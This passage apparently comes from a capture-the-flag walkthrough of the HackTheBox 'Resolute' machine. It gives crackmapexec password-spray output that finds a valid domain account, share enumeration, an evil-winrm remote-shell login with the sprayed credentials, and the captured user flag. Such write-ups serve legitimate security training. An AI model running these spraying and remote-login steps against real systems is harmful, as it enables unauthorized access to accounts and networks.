     CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\felicia:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\gustavo:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\ulf:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\stevie:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\claire:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\paulo:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\steve:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\annette:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\annika:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\per:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\claude:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [+] MEGABANK\melanie:Welcome123!

We can then enumerate the shares but nothing interesting.

    :::text
    crackmapexec smb 10.10.10.169 -u melanie -p 'Welcome123!' --shares
    CME          10.10.10.169:445 RESOLUTE        [*] Windows 10.0 Build 14393 (name:RESOLUTE) (domain:MEGABANK)
    CME          10.10.10.169:445 RESOLUTE        [+] MEGABANK\melanie:Welcome123!
    CME          10.10.10.169:445 RESOLUTE        [+] Enumerating shares
    CME          10.10.10.169:445 RESOLUTE        SHARE           Permissions
    CME          10.10.10.169:445 RESOLUTE        -----           -----------
    CME          10.10.10.169:445 RESOLUTE        NETLOGON        READ
    CME          10.10.10.169:445 RESOLUTE        SYSVOL          READ
    CME          10.10.10.169:445 RESOLUTE        ADMIN$          NO ACCESS
    CME          10.10.10.169:445 RESOLUTE        IPC$            READ
    CME          10.10.10.169:445 RESOLUTE        C$              NO ACCESS

We can then use [evil-winrm](https://github.com/Hackplayers/evil-winrm) to
connect using Winrm. This let us get the user flag in `melanie` home folder.

    :::text
    ruby evil-winrm.rb -u melanie -p 'Welcome123!' -i 10.10.10.169

    Evil-WinRM shell v1.8

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\melanie\Documents> type ..\Desktop\user.txt
    0c3be45fcfe249796ccbee8d3a978540

# Second user

We start enumerating the box. We can even run a
[Bloodhound](https://github.com/fox-it/BloodHound.py) at it.
